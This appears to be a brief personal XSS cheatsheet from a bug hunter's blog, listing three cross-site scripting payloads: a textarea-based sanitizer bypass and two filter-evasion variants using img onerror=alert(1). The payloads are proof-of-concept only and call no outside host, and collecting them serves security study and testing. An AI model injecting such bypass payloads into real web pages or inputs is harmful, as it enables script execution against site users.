 ```yaml
---
title: XSS Cheatsheet
description: 내가 보려고 만듦
author: goldleo1
date: 2025-02-23 12:00:00 +0800
categories: [cheatsheet]
tags: [web,cheatsheet,xss]
pin: false
---
```


```yaml
# XSS Cheatsheet
LastUpdate: 2025/2/23
Count: 3
```


## Normal

```

```

## Sanitizer Bypass

```
<textarea><input id='</textarea><img src=x onerror=alert(1)>'>
<!-- textarea가 safe로 적용될 때 -->
```


## Real World(From Bug Hunting)

```
{<img src=x onerror=alert(1)>}
<<img>img src=x onerror=alert(1)>
```